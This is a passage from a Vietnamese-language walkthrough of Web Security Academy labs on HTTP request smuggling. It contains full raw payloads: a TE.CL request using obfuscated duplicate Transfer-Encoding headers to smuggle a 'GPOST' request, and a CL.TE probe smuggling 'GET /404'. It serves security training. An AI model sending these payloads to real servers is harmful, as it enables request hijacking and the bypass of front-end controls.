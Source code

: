 >Trường hợp này sẽ quay về `TE.CL` và sử dụng payload:
```
POST / HTTP/1.1
Host: 0a47004d04a13054809ad61c00ca0041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

a
0


```

>Send request lần thứ nhất:
>![image](https://hackmd.io/_uploads/SyOdBuMuA.png)

>Send lần 2 ta thấy request chứa **GPOST** đã được gửi và xử lí:
>![image](https://hackmd.io/_uploads/SJnqrdM_C.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/rJuoHuzdC.png)

### **4. Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses**
![image](https://hackmd.io/_uploads/BJTojLmdR.png)

>Trước tiên, ta cần xác định đây là dạng gì, sau khi test với request sau thì ta biết được lab này thuộc dạng `CL.TE`:
```
POST / HTTP/1.1
Host: 0aeb005a04ca25d8803e80d5001c0054.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x


```
